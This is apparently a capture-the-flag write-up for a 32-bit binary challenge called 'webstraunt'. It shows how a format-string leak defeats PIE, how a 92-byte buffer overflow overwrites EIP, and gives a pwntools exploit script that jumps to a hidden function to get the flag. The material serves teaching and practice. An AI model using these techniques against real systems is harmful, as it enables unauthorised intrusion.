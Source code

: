Do basic file checks
```sh
checksec --file webstraunt
```

```sh
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So it's a 32 bit binary with PIE enabled and no canary and non executaable stack

Run the binary
It asks for us to select from the 4 given options, play with the input, try to give very large input to check for buffer overflow or provide format specifier like `%p` or `%x` to check for format string vulnerabilites.

We find out that its leaking address as format string vulnerabilites are present.
And the second time it asks us for input and we provide a large value, the program crashes so we also have a buffer overflow

Give input as 
```sh
%p|%p|%p|%p|%p|%p
```

And the output is 

```sh
(nil)|(nil)|0x566422bd|(nil)|0xffcd41eb|0x2
```

Run the program in gdb and do the same and examine the leaked values

Give the same input then cancle the program execution with Ctrl + C

I am using gdb-pwndbg

Open the binary and run `info functions`

```sh
0x0000128d  main
0x000012ad  runRestaurant
0x0000138c  secretMenu
```

We functions we need to check

To examine the leaked values do

```sh
x 0x565562bd
```

Output
```
0x565562bd <runRestaurant+16>:	0x2cffc381
```

So the leaked address is at offset of runRestauran() function + 16 address
We know the offset of runRestauran() function is at 0x000012ad. To find offset of 
<runRestaurant+16>, run the command `disassemble runRestaurant`

```sh
   0x000012b5 <+8>:	sub    esp,0x54
   0x000012b8 <+11>:	call   0x1190 <__x86.get_pc_thunk.bx>
   0x000012bd <+16>:	add    ebx,0x2cff
```

So the value of offset is 0x000012bd from the base of binary, so if we need to find base of binary, from the leaked value subtract this offset and we get base of binary.

We can write a script for this, and after we have done this, to the leaked value add the offset of secretMenu() function to call it since the second input vulnerable to buffer overflow

To find the offset of overwriting the EIP with bufferoverflow generate a cyclic pattern 
`cyclic 200`

Run the binary and in second input provide the cyclic patter. We can see the values in EIP are `xaaa`

```sh
*ESP  0xffffce50 ◂— 'yaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
*EIP  0x61616178 ('xaaa')
```

Run `cyclic -l xaaa` and we find the offset is at 92 bytes

We can write a script like this

```python
#!/usr/bin/env python3

from pwn import *

exe = './webstraunt'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port= '3.23.56.243',9009

#p = process(exe)
p = remote(host,port)

padding = 92

p.sendlineafter(b'>>>','%3$p|')#since the 3rd %p leaks the value so %3$p
p.recvuntil(b'order:\n')
# 0x000012bd <+16>:	add    ebx,0x2cff  : Leaked offset = <runRestaurant+16> and its offset from base of binary is 0x000012bd
LEAK = int(p.recvuntil(b'|').strip(b'|').decode(),16) - 0x000012bd
info("BASE: %x",LEAK)
#flag = LEAK + elf.symbols.secretMenu  # info functions : 0x0000138c  secretMenu : offset of secret menu is 0x0000138c and this is the function we want to call
flag = LEAK + 0x0000138c # 0x0000138c is the offset of secretMenu() function
info("FLAG: %x",flag)

payload = flat(
    asm('nop')*padding,#padding to reach EIP
    flag,
)

p.sendlineafter(b'>>>',payload)
p.interactive()

```

And we get the flag
flag : texsaw{n0t_web_NOR_a_r3st4urant_3adcdcd2}